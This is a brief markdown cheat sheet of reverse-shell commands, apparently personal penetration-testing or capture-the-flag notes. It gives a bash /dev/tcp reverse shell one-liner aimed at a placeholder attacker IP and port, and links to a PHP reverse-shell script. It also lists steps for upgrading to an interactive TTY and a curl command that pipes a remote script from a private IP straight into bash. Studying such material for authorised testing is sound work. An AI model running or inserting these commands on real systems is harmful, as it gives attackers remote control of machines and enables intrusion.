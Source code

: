# Reverse Shells - Examples

https://www.revshells.com/

## Bash

	bash -c "bash -i >& /dev/tcp/<YOUR_IP>/<NETCAT_PORT> 0>&1"

## PHP

	https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php


## Fully interactive shell

In the reverse shell write

	python3 -c 'import pty;pty.spawn("/bin/bash")'

Put nc in the background by pressing CTRL+Z
then write

	stty raw -echo; fg;
	export TERM=xterm


## Tips

Ugrading the the reverse shell we got

	script /dev/null -c bash

Download reverse shell file and imediately execute it

	curl 'http://10.10.16.20:2020/test.sh'|bash